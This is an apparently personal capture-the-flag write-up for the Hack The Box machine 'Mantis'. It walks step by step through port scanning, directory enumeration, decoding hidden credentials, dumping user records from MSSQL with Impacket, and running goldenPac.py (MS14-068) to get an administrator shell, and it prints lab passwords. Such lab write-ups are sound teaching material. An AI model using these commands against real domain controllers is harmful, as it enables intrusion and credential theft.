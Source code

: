 # [Mantis](https://app.hackthebox.com/machines/mantis)

```bash
nmap -p- --min-rate 10000 10.10.10.52 -Pn  
```

![Alt text](img/image.png)


After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,1337,1433,3268,3269,5722,8080,9389,47001 10.10.10.52
```

![Alt text](img/image-2.png)


I just browse port (1337) via HTTP protocol just because it comes so interesting for me.

![Alt text](img/image-1.png)


That's normal IIS server, let's do directory enumeration to find interesting things.

```bash
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![Alt text](img/image-9.png)

I found interesting 'secure_notes' endpoint and see ASCII binary string which located bottom of page that looks like tricky stuff.

![Alt text](img/image-3.png)


I can get this stuff from below of page.

![Alt text](img/image-4.png)


I convert this '**ASCII**' binary via online tool.

![Alt text](img/image-5.png)


Password: @dm!n_P@ssW0rd!


I see that file name is so interestinf via random string stuff, that's why I take this value and try to decode.

For this, I just use [CyberChef](https://cyberchef.io)

![Alt text](img/image-6.png)


admin:m$$ql_S@_P@ssW0rd!

I use this credentials to login into MSSQL machine via `mssqlclient.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py 'admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'
```

![Alt text](img/image-7.png)

I just enumerate this MSSQL and find below sensitive stuff.

DB_name=> orcharddb
```bash
SELECT name FROM master.dbo.sysdatabases;
```

Table name=> blog_Orchard_Users_UserPartRecord
```bash
select * from orcharddb.INFORMATION_SCHEMA.TABLES;
```

Data=>
```bash
select * from blog_Orchard_Users_UserPartRecord;
```

![Alt text](img/image-8.png)


I got credentials of '**james**' user.

james:J@m3s_P@ssW0rd! 


I just enumerate one by one exploitation scripts of `Impacket` module and find `goldenPac.py` script.


This script is used to exploit [CVE-2014-6324](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets#ms14-068-cve-2014-6324) also called [MS14-068](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068).


Let's use this script to get administrator shell.

```bash
python3 /usr/share/doc/python3-impacket/examples/goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james@mantis.htb.local
```

![Alt text](img/image-10.png)

user.txt

![Alt text](img/image-11.png)


root.txt

![Alt text](img/image-12.png)
